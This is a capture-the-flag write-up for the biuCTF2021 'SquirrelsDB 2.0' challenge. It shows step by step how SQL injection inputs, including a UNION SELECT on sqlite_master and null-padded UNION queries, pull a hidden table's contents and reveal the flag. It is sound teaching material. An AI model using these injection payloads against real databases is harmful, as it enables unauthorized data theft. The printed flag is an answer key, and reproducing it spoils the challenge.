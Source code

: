 # SquirrelsDB 2.0 - biuCTF2021

Let's Start. We got a link: http://challenges.ctf.cs.biu.ac.il:7007/

let's press the link ,and what we get a page that looks
Similar to the previous challenge. If we input ```123456789 or 1=1``` like before, we'll get:

![Screenshot](1.png) 

The flag isn't here. So it's probably somewhere else in the database. We know this databse is a sqlite databse, so we 
can use the command ```SELECT * FROM sqlite_master``` to print info about all the tables in the database. 
We can inject the command by writing ```123456789 UNION SELECT * FROM sqlite_master```, this will result in the command:
```
SELECT * FROM users WHERE ID=id UNION SELECT * FROM sqlite_master
```
So we should get the user with id 123456789, and information about the tables in the databse. and behold:

![Screenshot](2.png) 

we can see that there is a table called ```info```. The flag isn't in the users table so it has to be in info.
Let's try to print the table by injecting ```SELECT * FROM info```:

![Screenshot](3.png) 

Hmmmm. There is no data. That could be because some of the rows contain NULL in them.

So if we Inject ```SELECT null,null,null,null,null FROM info```:

![Screenshot](4.png) 


we get data from the table (but not the flag). So we know the table has 5 columns and 2 of them 
are ID and DESCRIPTION (we know that from the *sqlite_master* command).

So we can try ```SELECT ID,DESCRIPTION,null,null,null FROM info```. But we get nothing.
Let's try ```SELECT null,ID,DESCRIPTION,null,null FROM info```. We'll write into the search bar:
```
123456789 UNION SELECT null,ID,DESCRIPTION,null,null FROM info
```

And voila:

![Screenshot](4.png) 

We found the flag, which is ```biuCTF{uN1Te_4g41nSt_THE_SQu1rRELs_un1oN}```

